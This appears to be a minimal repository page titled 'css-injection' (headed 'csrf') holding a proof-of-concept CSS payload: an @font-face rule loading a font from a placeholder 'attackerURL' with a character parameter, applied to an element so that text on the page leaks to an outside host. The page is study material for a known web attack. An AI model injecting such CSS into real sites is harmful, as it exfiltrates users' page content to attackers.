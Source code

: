 # css-injection
<h1>csrf</h1>  <br/>


>@font-face{ <br/>
> font-family:poc;  <br/>
> src: url(attackerURL?C); <br/>
>}  <br/>
>#p1{  <br/>
> font-family:poc;  <br/>
>} <br/>
